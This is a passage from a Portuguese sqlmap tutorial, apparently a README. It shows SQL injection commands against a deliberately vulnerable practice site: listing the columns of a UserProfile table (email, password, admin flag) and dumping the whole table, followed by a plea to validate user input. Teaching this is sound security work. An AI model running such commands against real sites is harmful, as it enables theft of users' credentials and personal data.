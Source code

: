 ```
+------------------------------+
```

Vamos selecionar uma tabela com informações sensitivas, que costumam ser as mais vulneráveis para as empresas porque contém informações de clientes. A tabela `UserProfile` parece ser promissora!

```bash
./sqlmap.py --url "http://hackyourselffirst.troyhunt.com/Make/1?orderby=supercarid" -D hackyourselffirst_db -T UserProfile --columns
```

E, como esperado, essa tabela contém informações relevantes dos usuários:

```
[08:33:21] [INFO] retrieved: Email
[08:33:21] [INFO] retrieved: nvarchar
[08:33:22] [INFO] retrieved: FirstName
[08:33:23] [INFO] retrieved: nvarchar
[08:33:23] [INFO] retrieved: IsAdmin
[08:33:24] [INFO] retrieved: bit
[08:33:24] [INFO] retrieved: LastName
[08:33:25] [INFO] retrieved: nvarchar
[08:33:26] [INFO] retrieved: Password
[08:33:26] [INFO] retrieved: nvarchar
[08:33:27] [INFO] retrieved: UserId
[08:33:27] [INFO] retrieved: int
Database: hackyourselffirst_db
Table: UserProfile
[6 columns]
+-----------+----------+
| Column    | Type     |
+-----------+----------+
| Email     | nvarchar |
| FirstName | nvarchar |
| IsAdmin   | bit      |
| LastName  | nvarchar |
| Password  | nvarchar |
| UserId    | int      |
+-----------+----------+
```

Por fim, vamos fazer um dump de toda a tabela de usuários (porque não?):

```bash
./sqlmap.py --url "http://hackyourselffirst.troyhunt.com/Make/1?orderby=supercarid" -D hackyourselffirst_db -T UserProfile --dump 
```

E toda a tabela agora é nossa:

<img src="https://user-images.githubusercontent.com/8211602/33935028-ae631146-dfe1-11e7-80d6-ccb9f235e84e.png" style="width: 100%;"/>

Agora imagine o que isso implicaria para um site que lida com informações como números de cartões. **Em cinco minutos, todos os dados de todos os usuários poderiam ser obtidos por alguém copiando e colando comandos na tela do computador.** Por isso é tão importante que as empresas tenham o cuidado de manter seus websites sempre seguros. O principal problema aqui é que, caso o administrados não mantivesse ou não prestassem atenção nos logs do seu serviço, ele provavelmente nem saberia que todos os seus dados foram roubados.

Então lembrem-se. **Sempre validem os dados dos usuários!**


